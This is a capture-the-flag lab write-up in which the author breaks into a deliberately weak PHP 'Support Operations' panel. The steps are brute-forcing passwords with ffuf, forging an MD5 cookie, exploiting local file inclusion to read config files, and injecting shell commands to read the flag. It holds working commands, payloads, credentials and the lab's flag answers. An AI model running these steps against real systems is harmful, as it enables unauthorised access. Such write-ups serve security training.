# Support

Pentest the Support Ops platform to exploit vulnerabilities and achieve RCE.

## Task 1. Support Challenge



A new internal **Support Operations Platform** has been deployed to assist IT and helpdesk teams. The application handles user management, internal APIs, and system-level operations. However, security was not the primary focus during development. Several features rely on user-controlled input and weak trust boundaries.


*Can you pentest the platform and escalate your access to achieve RCE on the server?*

### Part I

#### Enumeration

The target is a login form for internal access only



**NMAP**

Lets use nmap to detect service:

```shell
sudo nmap -A 10.49.170.71
```

```terminal
root@ip-10-49-68-186:~# sudo nmap -A 10.49.170.71
Starting Nmap 7.94SVN ( https://nmap.org ) at 2026-11-25 05:50 UTC
Nmap scan report for ip-10-49-170-71.ap-south-1.compute.internal (10.49.170.71)
Host is up (0.00027s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 a2:f1:9f:dd:ac:59:ac:c4:17:86:c6:88:1f:3c:e2:8c (ECDSA)
|_  256 2f:4b:3b:de:1d:ed:40:0c:f5:bb:6a:74:26:53:39:1a (ED25519)
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_http-title: Support Operations Panel
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94SVN%E=4%D=11/25%OT=22%CT=1%CU=38667%PV=Y%DS=1%DC=T%G=Y%TM=6B0
OS:6772C%P=x86_64-pc-linux-gnu)SEQ(SP=101%GCD=1%ISR=10D%TI=Z%CI=Z%TS=A)SEQ(
OS:SP=101%GCD=1%ISR=10D%TI=Z%CI=Z%II=I%TS=A)OPS(O1=M2301ST11NW7%O2=M2301ST1
OS:1NW7%O3=M2301NNT11NW7%O4=M2301ST11NW7%O5=M2301ST11NW7%O6=M2301ST11)WIN(W
OS:1=F4B3%W2=F4B3%W3=F4B3%W4=F4B3%W5=F4B3%W6=F4B3)ECN(R=Y%DF=Y%T=40%W=F507%
OS:O=M2301NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R
OS:=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%
OS:A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%
OS:DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIP
OS:L=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 256/tcp)
HOP RTT     ADDRESS
1   0.30 ms ip-10-49-170-71.ap-south-1.compute.internal (10.49.170.71)

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.77 seconds
root@ip-10-49-68-186:~# 
```

It seem nothing is valueable

**robots.txt** and **sitemap.xml** is not set.

Lets use gobuster to find open endpoints: `gobuster dir -u "http://10.49.170.71" -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -r`

```terminal
/skins                (Status: 200) [Size: 1533]
/includes             (Status: 200) [Size: 1143]
/layout               (Status: 200) [Size: 953]
/js                   (Status: 200) [Size: 957]
/server-status        (Status: 403) [Size: 277]]
```

- Check whether php run under the hood: `gobuster dir -u http://10.49.170.71 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/common.txt
`

```terminal
/.hta                 (Status: 403) [Size: 277]
/.htpasswd            (Status: 403) [Size: 277]
/.htaccess            (Status: 403) [Size: 277]
/includes             (Status: 301) [Size: 315] [--> http://10.49.170.71/includes/]
/index.php            (Status: 200) [Size: 2591]
/info.php             (Status: 200) [Size: 73290]
/js                   (Status: 301) [Size: 309] [--> http://10.49.170.71/js/]
/layout               (Status: 301) [Size: 313] [--> http://10.49.170.71/layout/]
/skins                (Status: 301) [Size: 312] [--> http://10.49.170.71/skins/]
/server-status        (Status: 403) [Size: 277]
```

OK we have some 200 endpoint. Lets check onebyone

- `index.php` is the login form
- `info.php` is like the full config (hmm i dont knnow ;-;)
- At `/skins`, I get:

- At `/includes`, I get:


There's nothing valuable at all.

It seems I can login with no limit.

##### Brute Force Password

Inspect source html code to weponize tools

```html
 <form method="POST">
                <div class="mb-3">
                    <label class="form-label">Corporate Email</label>
                    <input type="email" name="email" class="form-control" placeholder="help@support.thm" required>
                </div>

                <div class="mb-4">
                    <label class="form-label">Password</label>
                    <input type="password" name="password" class="form-control" required>
                </div>

                <button class="btn btn-primary w-100">Sign In</button>
            </form>
```

```bash
ffuf -w /usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-10000.txt -X POST -d "email=help@support.thm&password=FUZZ" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.49.154.53 -fr "Invalid credentials"
```

```
snoopy [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 7ms]
```

BINGOOO!!



I got 2 cookies:



Use hashes.com to crack it:



BINGOOO!

Lets change it to true and hash it:

> b326b5062b2f0e69046810717534cb09

Replace it with the previous one and refresh




Now I know the admin's email is: **specialadmin@support.thm**



Lets brute force admin's password

```bash
ffuf -w /usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-1000000.txt -X POST -d "email=specialadmin@support.thm&password=FUZZ" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.49.154.53 -fr "Invalid credentials"
```

There's nothing.

At `/user/2`, there's another account:

```json
{
    "email": "IT@support.thm",
    "2FA": false,
    "admin": false
}
```

Try bruteforce it

```bash
ffuf -w /usr/share/wordlists/SecLists/Passwords/Common-Credentials/10-million-password-list-top-100000.txt -X POST -d "email=IT@support.thm&password=FUZZ" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.49.154.53 -fr "Invalid credentials"
```

There's nothing

Back to `info.php`, There's somthing that is worth notice:

- SERVER_ADMIN:	webmaster@localhost
- file_uploads	On	On
- $_COOKIE['PHPSESSID']	7hg058lppd0q8ri7pr94k393b2
- $_COOKIE['isITUser']	b326b5062b2f0e69046810717534cb09

There's nothing.

Notice the scroll list "**Select Theme**" in `dashboard.php`. Now, notice the search bar: http://10.49.154.53/dashboard.php?skin=red

There may be a LFI vulnerability here.

#### Exploitation

Try `skin=info` and I got this:

```php
<?php
echo phpinfo();
?>
```

Ok LFI is here. Try `skin=../dashboard`

```php
<?php
session_start();

if (!isset($_SESSION['loggedin'])) {
    header('Location: index.php');
    exit;
}

$isIT = $_COOKIE['isITUser'] ?? md5("false");
$skin = $_GET['skin'] ?? 'default';
?>

<!DOCTYPE html>
<html>
<head>
    <title>Dashboard</title>
    <link href="layout/bootstrap.min.css" rel="stylesheet">
</head>
<body>

<?php

$webRoot = realpath('/var/www/html/skins');
$another = realpath('/var/www/html');
$requested = realpath($webRoot . '/' . $skin . '.php');

if ($requested !== false && strpos($requested, $another) === 0) {
    readfile($requested);
}
?>
```

Next, try `skin=../config`

```php
<?php

$MASTER_PASSWORD = 'support@110';

$SITE_VER = '1.0';
$SITE_NAME = 'support_portal';
```

GOT ITTTT

I complete admin credential: `specialadmin@support.thm:support@110`

DAMNN THAT'S WRONG :))))

Try `skin=../api`

```php
<?php
session_start();

if (!isset($_SESSION['loggedin'])) {
    header('Location: index.php');
    exit;
}


if (($_COOKIE['isITUser'] ?? md5('false')) !== md5('true')) {
    die('Access denied');
}

include('/var/www/db.php');

$id = $_GET['id'] ?? $_SESSION['user_id'];
$user = $users[$id] ?? null;


if (preg_match('#^/user/#', $_SERVER['REQUEST_URI'])) {
    header('Content-Type: application/json');
unset($user['password']);

    echo json_encode($user, JSON_PRETTY_PRINT);
    exit;
}
?>
```

Wait...lets try **Password Mutation**. Eg, `specialadmin@support.thm:support110`



BINGOOOO

> THM{I_AM_ADMIN999}

### Part 2

#### Enumeration

In the dashboard page logged in with admin cred, I found a **Date** scroll list

Check source code:

```js
 <form method="POST" id="sysForm">
                    <select name="sys"
                            class="form-select"
                            onchange="document.getElementById('sysForm').submit();">

                        <option value="date"
                            selected>
                            Date
                        </option>

                        <option value='date +"%H:%M:%S"'
                            >
                            Time
                        </option>

                    </select>
                </form>
```

Open network tab to see what happened under the hood:

CATCH IT. In the POST request:



This is Command Injection Vulnerability

#### Exploitation

Use the payload: `sys=date;cat /home/ubuntu/user.txt` and use https://gchq.github.io/CyberChef/ with **URL encode** recipe.

`sys=date;cat%20/home/ubuntu/user%2Etxt`



BINGOOOOOO!!!!!

> THM{GOT_THE_FLAG001}

### Questions

What is the flag value after logging in as **admin**?

> THM{I_AM_ADMIN999} 

What is the content of the file **/home/ubuntu/user.txt**?

> THM{GOT_THE_FLAG001}

___

25/11/2026 * Thv0n9K1nG